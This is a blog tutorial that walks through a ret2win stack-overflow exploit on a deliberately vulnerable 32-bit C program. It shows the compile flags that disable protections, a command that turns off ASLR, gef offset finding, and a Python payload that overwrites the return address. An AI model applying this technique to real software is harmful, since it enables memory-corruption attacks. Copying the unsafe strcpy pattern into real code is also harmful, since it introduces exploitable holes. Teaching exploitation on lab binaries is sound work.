



Adrien
Tuesday, September 15, 2020
#2 ret2win exploit 32-bit linux
ROP 32 ?
A ROP 32 works in the same way as a buffer overflow except that there is no shellcode here!
The purpose of a ROP 32 is to call a function of the program that is never called once in the program code.
In this tutorial I will show you how to execute a ROP exploit on a 32bits binary.
Code
Here is the code of the program we are going to use:
#include <string.h>
#include <stdio.h>
int win(){
printf("FLAG[WIN_!]\n");
return 0;
}
int vulnerable(char *argument){
char buffer[100];
strcpy(buffer,argument);
printf("Bonjour %s \n", buffer);
return 0;
}
int main(int argc, char *argv[]) {
vulnerable(argv[1]);
printf("Mhm ... Il manque une fonction !\n");
return 0;
}
If you followed the tutorial on bufferoverflow, the code is almost the same.
The only difference is the addition of an extra function win() but as you can see, this function is never called in the program.
Compile
To compile it, we use gcc with the following options:
gcc -m32 -fno-stack-protector -z execstack -o ret2win_32 ret2win_32.c -no-pie
Disable ASRL :
sudo sysctl kernel.randomize_va_space=0
Padding
First, we need to find the padding to fill the EIP register.
For this we use a pattern with gef.
gef➤ pattern create 150
Once the pattern is created we will use it in our program to make it crash:
gef➤ run aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma

We get the offset present in EIP and we use the following command to find the size of EIP:
gef➤ pattern search 0x62616164

The adding will be 112.
THe win function
Now we’ll get the address of the win() function.
gef➤ p win

We are ready to pwn !
Exploit !
We will use a python script to generate our payload:
padding = "\x90" * 112
RET = "\x96\x91\x04\x08"
payload = padding + RET
with open("payload.bin", "wb") as f:
f.write(payload)
Exec and win !

Now our function has been called!